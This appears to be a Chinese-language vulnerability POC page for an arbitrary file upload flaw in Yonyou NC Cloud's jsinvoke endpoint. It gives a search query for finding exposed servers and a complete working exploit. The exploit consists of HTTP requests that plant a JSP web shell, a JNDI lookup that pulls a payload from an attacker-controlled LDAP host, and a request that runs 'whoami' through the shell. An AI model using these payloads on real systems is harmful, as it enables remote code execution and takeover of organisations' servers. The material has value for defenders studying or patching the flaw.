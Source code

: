 # 用友 NC Cloud jsinvoke 任意文件上传漏洞

# 用友 NC Cloud jsinvoke 任意文件上传漏洞

## 漏洞描述

用友 NC Cloud jsinvoke 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件至服务器中，获取系统权限

## 漏洞影响

用友 NC Cloud

## 网络测绘

```
app="用友-NC-Cloud"
```

## 漏洞复现

登陆页面

![image-20230828164153665](images/image-20230828164153665.png)

验证POC

```
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ], 
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded


{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```

![image-20230828164215853](images/image-20230828164215853.png)

```
/cmdtest.jsp?error=bsh.Interpreter&cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec(%22whoami%22).getInputStream()) 
```

![image-20230828164239659](images/image-20230828164239659.png)

